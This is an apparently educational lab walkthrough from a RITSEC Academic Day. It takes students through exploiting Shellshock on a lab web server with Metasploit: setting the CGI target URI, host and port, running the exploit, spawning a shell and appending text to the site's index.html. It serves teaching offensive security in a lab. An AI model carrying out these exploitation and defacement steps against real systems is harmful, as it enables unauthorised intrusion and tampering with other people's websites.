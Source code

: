 # RITSEC Academic Day - ShellShock 

## Background
What is metasploit, what is shellshock, etc.C  

## Viewing the Website

Open your browser and head to http://<TARGET_IP>:8080

## Setup
Click the Black Box with the "$_" to open the terminal.
![terminal](terminal.PNG)

## Attacking the Box - Commands To Run
This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

With the meterpreter prompt, enter `shell` to spawn a bash prompt on the box.

8. `shell`

![shell](shell.PNG)

## Modifying the Website

With your shell, now you can modify the website. Run the pwd command to see your path (location) on the remote box.

1. `pwd`

![pwd](whoamiandpwd.PNG)

Most websites by default keep their files in `/var/www`. Change to this directory and list the contents.

2. `cd /var/www`
3. `ls`

![cdandls](cdandls.PNG)

The `index.html` file contains the main page of the website. Add your name to it below. 

The `echo` command will write what you give it into the file given. MAKE SURE TO USE TWO (2) '>' keys!

4. `echo 'your_name_here' >> index.html`

![echo](addyourname.PNG)

Now visit the website and see that your name has been publicly added!

Now it's your turn, find out how to add a page of your own to the site. (Hint: use the `touch` command)